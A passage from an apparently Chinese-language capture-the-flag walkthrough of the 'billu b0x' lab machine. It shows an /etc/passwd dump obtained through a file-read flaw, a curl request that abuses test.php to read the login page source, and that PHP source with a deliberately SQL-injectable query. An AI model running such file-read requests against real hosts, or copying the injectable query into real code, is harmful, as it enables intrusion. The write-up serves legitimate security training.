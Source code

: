     www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    syslog:x:101:103::/home/syslog:/bin/false
    mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
    messagebus:x:103:106::/var/run/dbus:/bin/false
    whoopsie:x:104:107::/nonexistent:/bin/false
    landscape:x:105:110::/var/lib/landscape:/bin/false
    sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
    ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
    
    # 经过尝试，只能读取到passwd文件，无法获取shadow文件。
    ```

-   读取登陆页的php文件查看源码为下一步sql注入做准备

-   ```php
    └─$ curl -d "file=./index.php" http://192.168.2.143/test.php
    <?php
    session_start();
    
    include('c.php');
    include('head.php');
    if(@$_SESSION['logged']!=true)
    {
            $_SESSION['logged']='';
    
    }
    
    if($_SESSION['logged']==true &&  $_SESSION['admin']!='')
    {
    
            echo "you are logged in :)";
            header('Location: panel.php', true, 302);
    }
    else
    {
    echo '<div align=center style="margin:30px 0px 0px 0px;">
    <font size=8 face="comic sans ms">--==[[ billu b0x ]]==--</font> 
    <br><br>
    Show me your SQLI skills <br>
    <form method=post>
    Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
    <input type=submit name=login value="let\'s login">';
    }
    if(isset($_POST['login']))
    {
            $uname=str_replace('\'','',urldecode($_POST['un']));
            $pass=str_replace('\'','',urldecode($_POST['ps']));
            $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
            $result = mysqli_query($conn, $run);
    if (mysqli_num_rows($result) > 0) {
    